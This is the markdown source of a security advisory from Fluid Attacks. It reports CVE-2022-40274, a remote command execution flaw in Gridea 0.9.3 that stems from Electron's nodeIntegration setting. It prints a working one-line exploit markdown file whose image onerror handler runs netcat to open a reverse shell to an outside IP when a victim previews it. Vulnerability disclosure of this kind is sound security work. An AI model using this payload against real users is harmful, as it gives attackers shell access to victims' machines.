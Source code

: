 ```yaml
---
slug: advisories/marshmello/
title: Gridea 0.9.3  -  RCE via nodeIntegration feature
authors: Carlos Bello
writer: cbello
codename: marshmello
product: Gridea 0.9.3
date: 2022-09-09 20:30 COT
cveid: CVE-2022-40274
severity: 8.8
description: Gridea 0.9.3  -  RCE via nodeIntegration feature
keywords: Fluid Attacks, Security, Vulnerabilities, Gridea
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Gridea 0.9.3  -  RCE via nodeIntegration feature       |
| **Code name**         | [Marshmello](https://en.wikipedia.org/wiki/Marshmello) |
| **Product**           | Gridea                                                 |
| **Affected versions** | Version 0.9.3                                          |
| **State**             | Private                                                |
| **Release date**      | 2022-09-09                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40274](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40274)                        |

## Description

Gridea version 0.9.3 allows an external attacker to execute arbitrary
code remotely on any client attempting to view a malicious markdown
file through Gridea. This is possible because the application has the
"nodeIntegration" option enabled.

## Vulnerability

This vulnerability occurs because the application has the "nodeIntegration"
option enabled.  Due to the above, an attacker can embed malicious JS code
in a markdown file and send it to the victim for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, you must send the following file to a user to
open with Gridea. The exploit is triggered when the user presses "CTRL+P" or
simply clicks "preview".

### exploit.md

```markdown
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![RCE-Gridea](https://user-images.githubusercontent.com/51862990/189430881-5d6db562-d650-42c1-af7b-bc0626d9dc89.gif)

## Our security police

We have reserved the CVE-2022-40274 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Gridea 0.9.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/getgridea/gridea>

## Timeline

<time-lapse
  discovered="2022-09-08"
  contacted="2022-09-08"
  replied=""
  confirmed="2022-09-00"
  patched=""
  disclosure="2022-09-00">
</time-lapse>
